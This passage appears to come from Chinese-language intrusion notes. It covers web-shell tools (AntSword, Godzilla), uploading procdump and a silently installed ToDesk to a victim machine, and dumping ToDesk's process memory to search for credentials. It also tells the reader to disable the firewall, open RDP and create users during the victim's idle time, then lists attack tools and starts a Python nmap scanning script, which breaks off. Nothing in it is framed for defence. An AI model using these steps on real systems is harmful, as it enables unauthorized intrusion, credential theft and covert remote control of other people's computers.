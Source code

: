 ###  5.工具连接

`蚁剑`，`godzilla.jar`,`bihind`

```php
//godzilla.jar 可以利用工具生成shell，获取高权限，控制目标机（缺点上传文件不稳定，下载较大的文件时很好用）
//蚁剑 不太安全，但是上传文件方便，不建议使用它的命令行，会报 ret = 1 ，被对方防火墙拦截！

java -jar godzilla.jar
```

###  6. 传文件

```assembly
/*

扩大控制权限，例如使用 第三方程序脚本来执行命令
procdump.exe

以上两个程序缺一不可，传到目标机，然后传一个todesk的安装包给目标机
使用命令 todesk_setup.exe /S 静默安装，但是不好的一点是，安装好了会弹窗！

使用 procdump.exe 
使用 tasklist 查看todesk的pid（有两个todesk，只要类型为server的那个）
然后执行命令：procdump.exe -accepteula -ma 11652(实际的pid) --> 微软自带的获取指定exe文件的数据包（通过蚁剑或者godzilla将dump下来的数据包下载到本地进行分析）
在010Editor里查看16进制编码，使用·Ctrl+F·全局搜索当日的时间戳（例如20240914）

控制好目标机使用电脑的时间，利用空闲时间，上去关防火墙，开3389，新建用户，改配置文件等高权限的操作。。。。。

*/
```

------

# 实战

- 环境:
  - 受害者:`类型不限`
  - 端口扫描工具:`fscan`,`御剑`,`masscan`,`naabu`等
  - 目录扫描工具:`7kbscan-WebPathBrute`
  - 爆破工具:`SNETCracker`
  - shell工具:`蚁剑`,`Godzilla`
  - 其它:`Python3.12`(版本不限),`pycharm`,`procdump`,`010Editor`,`todesk安装包`

### 扫描

```python
import subprocess
import threading

# TODO:生成ip.txt,方便后续操作
base_ip = input("请输入需要生成的起始ip地址(例如192.168.71.*):")
last_num = int(base_ip.rsplit('.', 1)[-1])  # TODO:获取最后一个数字 *
base_ip = base_ip.rsplit('.', 1)[0] + '.'  # TODO:获取除了最后一个数字的部分 192.168.71. 然后进行拼接得到新的ip
ips = [base_ip + str(i) for i in range(last_num, 255)]
# TODO:写入文件
with open("C:/Users/24937/Desktop/ip2.txt", "w") as f:  # TODO:这里用w实现覆盖,避免重复运行时ip重复
    for ip in ips:
        print(ip)
        f.write(ip + "\n")
print('写入成功 >_<')
# TODO:把需要的用到的命令写入到列表,可以自定义
cmds = [
    'nmap -iL C:\\Users\\24937\\Desktop\\ip2.txt -p 80,8080,22,3306,6379,3389,1433,445 -sV -O',
```